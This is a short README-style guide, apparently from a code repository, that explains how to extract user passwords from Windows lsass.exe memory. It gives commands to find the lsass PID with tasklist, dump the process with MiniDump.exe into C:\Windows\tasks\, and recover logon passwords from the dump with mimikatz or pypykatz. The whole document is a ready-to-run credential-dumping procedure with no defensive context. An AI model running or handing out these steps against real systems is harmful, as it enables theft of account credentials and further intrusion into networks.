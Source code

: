 # Extracting user passwords from lsass.exe

Get the PID of the lsass process with `tasklist`

```
tasklist /FI "IMAGENAME eq lsass.exe"
```

Run MiniDump.exe with the PID of lsass.exe as the first argument.

```
MiniDump.exe <PID>
```
The dump file will be saved as lsass.dmp in `C:\Windows\tasks\`.
Then read the dump file with mimikatz and pypykatz and dump the passwords.

From Windows

```
mimikatz.exe "sekurlsa::minidump C:\Windows\tasks\lsass.dmp" "sekurlsa::logonpasswords"
```

From Linux

```
pypykatz lsa minidump lsass.dmp
```